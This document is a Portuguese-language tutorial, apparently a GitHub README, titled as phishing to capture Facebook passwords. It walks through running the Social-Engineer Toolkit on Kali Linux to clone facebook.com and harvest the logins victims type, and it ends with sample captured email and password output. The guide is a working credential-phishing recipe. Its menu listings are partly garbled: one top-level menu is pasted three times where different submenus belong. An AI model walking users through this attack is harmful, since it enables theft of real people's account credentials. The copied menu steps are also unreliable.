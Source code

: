 Phishing para captura de senhas do Facebook

Configurando o Phishing no Kali Linux

Acessar o terminal como root
sudo su

Iniciar o setoolkit
setoolkit

Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

Selecionar a opção 1

Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

Selecionar a opção 2

Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

Selecionar a opção 3

   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

Selectionar a opção 2


set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.223]: 
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: http://www.facebook.com

Conferir o IP da sua máquina virtual e depois digitar o site que será clonado http://www.facebook.com

Abrir o navegador e digitar o IP da sua máquina virtual, irá abrir o site clonado do facebook, nesse site você digita um login e senha e verifica no console se o usuário e senha foi capturado

POSSIBLE USERNAME FIELD FOUND: email=testedio@gmail.com                                                                                          
POSSIBLE PASSWORD FIELD FOUND: senha123456
PARAM: prefill_contact_point=                                                                                                                    
PARAM: prefill_source=                                                                                                                           
PARAM: prefill_type=                                                                                                                             
PARAM: first_prefill_source=                                                                                                                     
PARAM: first_prefill_type=                                                                                                                       
PARAM: had_cp_prefilled=false 

